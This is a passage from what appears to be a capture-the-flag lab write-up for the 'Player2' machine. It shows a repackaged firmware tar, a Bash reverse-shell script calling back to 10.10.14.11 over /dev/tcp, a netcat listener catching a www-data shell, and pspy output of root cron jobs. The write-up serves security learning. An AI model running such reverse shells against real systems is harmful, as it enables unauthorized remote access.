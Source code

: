 Repackage the `.tar`:



    root@kali# rm mod.tar; tar zcf mod.tar info.txt Protobs.bin version 



I'll also create a simple reverse shell Bash script named `s`:



    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.11/443 0>&1



Now start the Python webserver, and `nc` listener on 443. I'll upload
the `.tar`. First, I see the hit on the webserver:



    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.170 - - [22/Jan/2020 21:05:42] "GET /s HTTP/1.1" 200 -



Then a shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.170.
    Ncat: Connection from 10.10.10.170:41146.
    bash: cannot set terminal process group (1152): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@player2:/var/www/product/protobs$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



## Priv: www-data --\> observer

### Enumeration

#### pspy

After a bunch of normal enumeration that didn't spark anything for me, I
upload [pspy](https://github.com/DominicBreuker/pspy) to look for crons.
There's definitely a bunch of stuff that runs every minute:



    2020/01/23 11:27:01 CMD: UID=0    PID=2459   | sudo -u egre55 -s /bin/sh -c /usr/bin/php -S 0.0.0.0:8545 /var/www/main/server.php                                                                       
    2020/01/23 11:27:01 CMD: UID=0    PID=2458   | /usr/bin/python /root/connection.py 
    2020/01/23 11:27:01 CMD: UID=0    PID=2457   | /bin/dash -p -c /usr/bin/python /root/broadcast.py 
    2020/01/23 11:27:01 CMD: UID=0    PID=2456   | /bin/dash -p -c sudo -u egre55 -s /bin/sh -c "/usr/bin/php -S 0.0.0.0:8545 /var/www/main/server.php" 
    2020/01/23 11:27:01 CMD: UID=0    PID=2455   | /bin/dash -p -c /usr/bin/python /root/connection.py 
    2020/01/23 11:27:01 CMD: UID=0    PID=2454   | /usr/sbin/CRON -f 
    2020/01/23 11:27:01 CMD: UID=0    PID=2453   | /usr/sbin/CRON -f 
    2020/01/23 11:27:01 CMD: UID=0    PID=2452   | /usr/sbin/CRON -f 
    2020/01/23 11:27:01 CMD: UID=0    PID=2460   | /usr/bin/python /root/broadcast.py 
    2020/01/23 11:27:01 CMD: UID=1001 PID=2461   | /bin/dash -p -c \/bin\/sh -c \/usr\/bin\/php\ -S\ 0\.0\.0\.0\:8545\ \/var\/www\/main\/server\.php 
    2020/01/23 11:27:01 CMD: UID=1001 PID=2462   | /bin/dash -p -c \/bin\/sh -c \/usr\/bin\/php\ -S\ 0\.0\.0\.0\:8545\ \/var\/www\/main\/server\.php 